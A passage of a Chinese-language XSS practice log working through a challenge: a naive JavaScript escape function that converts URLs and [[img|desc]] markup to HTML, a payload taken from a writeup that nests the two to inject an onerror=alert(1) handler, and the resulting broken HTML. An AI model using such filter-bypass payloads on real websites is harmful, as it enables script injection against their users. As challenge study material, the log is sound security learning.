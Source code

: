 ```js
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

一开始是想到了将两个标签混合在一起，但还是差了点东西

最后看了writeup的payload

```
[[a|http://onerror=alert(1)//]]
```

这样之后，就会生成,从而产生xss

```html
<img alt="<a href="http://onerror=alert(1)//" src="a.gif">">http://onerror=alert(1)//]]</a>
```

![](xss练习记录/26.png)

## dom

输入`TextNode`或者一些`Script`标签时，后面的内容部分都会被转译成html实体，导致无法逃逸
